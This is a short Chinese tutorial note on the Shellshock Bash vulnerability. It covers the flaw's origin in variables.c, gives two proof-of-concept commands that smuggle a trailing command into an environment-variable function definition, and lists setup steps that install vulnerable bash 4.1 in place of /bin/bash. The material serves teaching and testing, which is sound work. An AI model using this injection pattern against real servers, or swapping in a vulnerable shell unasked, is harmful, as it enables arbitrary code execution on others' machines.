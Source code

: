 # Shellshock攻击

## 背景

2014年9月24日，Bash程序被发现存在一个严重的安全漏洞。攻击者可以利用该漏洞在被影响的服务器上执行任意代码。这个严重的安全漏洞被称为
Shellshock漏洞。

## 漏洞原理

Bash源代码variables.c这个文件中有下面这段代码：
![Bash源代码](../img/shellshock-source.png)  
这个函数的作用是读取环境变量的值并转换成函数，由于他只判断了值的头没有判断尾，故只要在尾部加入攻击语句就会执行

## 测试方法

方法一：
```bash
export foo='() { echo "hello world"; }; echo "extra";'
bash
```
方法二：
```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test "
```

## 环境搭建

```bash
sudo apt-get update
sudo apt install gcc make -y  
wget http://ftp.gnu.org/gnu/bash/bash-4.1.tar.gz tar xf bash-4.1.tar.gz
cd bash-4.1
./configure
make
sudo make install
sudo rm /bin/bash
ln -s /usr/local/bin/bash /bin/bash
```